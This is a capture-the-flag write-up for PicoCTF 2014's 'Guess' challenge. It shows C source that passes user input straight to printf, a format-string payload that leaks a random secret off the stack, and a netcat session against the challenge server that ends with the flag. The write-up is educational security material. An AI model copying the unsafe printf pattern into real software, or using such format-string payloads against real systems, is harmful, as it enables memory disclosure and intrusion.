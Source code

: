 # Pico-CTF 2014: Guess

**Category:** Binary Exploitation
**Points:** 75
**Total Solves:** Not Available
## Problem Description:
[//]: # (Description of your problem. For eg use below description as a template)
[//]: # (> This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! > The binary can be found at /home/format/ on the shell server. The source can be found [here](format.c\).)

```
#include <stdio.h>
#include <stdlib.h>

char *flag = "~~FLAG~~";

void main(){
    int secret, guess;
    char name[32];
    long seed;

    FILE *f = fopen("/dev/urandom", "rb");
    fread(&secret, sizeof(int), 1, f);
    fclose(f);

    printf("Hello! What is your name?\n");
    fgets(name, sizeof(name), stdin);

    printf("Welcome to the guessing game, ");
    printf(name);
    printf("\nI generated a random 32-bit number.\nYou have a 1 in 2^32 chance of guessing it. Good luck.\n");

    printf("What is your guess?\n");
    scanf("%d", &guess);

    if(guess == secret){
        printf("Wow! You guessed it!\n");
        printf("Your flag is: %s\n", flag);
    }else{
        printf("Hah! I knew you wouldn't get it.\n");
    }
}
// "aa%21$c,%$c,%19$c,%20$c", "%1$d,%2$d,%3$d,%4$d,%5$d,%6$d"
```

> This program requires you to guess a random 32-bit number! Sounds difficult, right? There is a server running at vuln2014.picoctf.com:4546, and the source can be found [here](guess.c).

## Write-up
[//]: # (> Your write up goes here.)
> This program has format string vulnerability at line `printf(name);`. If we give format specifiers input, then while printing printf will start popping up the varaible of type specified in format string, from stack. Suppose if we give %d as input then printf will print a integer from stack. Using this exploit we can pop out the value of variable `secret`. 
To print multiple integers form stack we can use give format string as %$1d, it will print the 1st integer from stack. We can give input as `%1$d,%2$d,%3$d,%4$d,%5$d,%6$d`.
From output of this we can guess the value of secret in few attempts.

```bash
nc vuln2014.picoctf.com 4546
Hello! What is your name?
%1$d,%2$d,%3$d,%4$d,%5$d,%6$d
Welcome to the guessing game, 32,-142865376,158580744,-1264074245,47,158580744

I generated a random 32-bit number.
You have a 1 in 2^32 chance of guessing it. Good luck.
What is your guess?
-1264074245
Wow! You guessed it!
Your flag is: leak_the_seakret
```

> Flag is **leak_the_seakret**

## Other write-ups and resources

* None
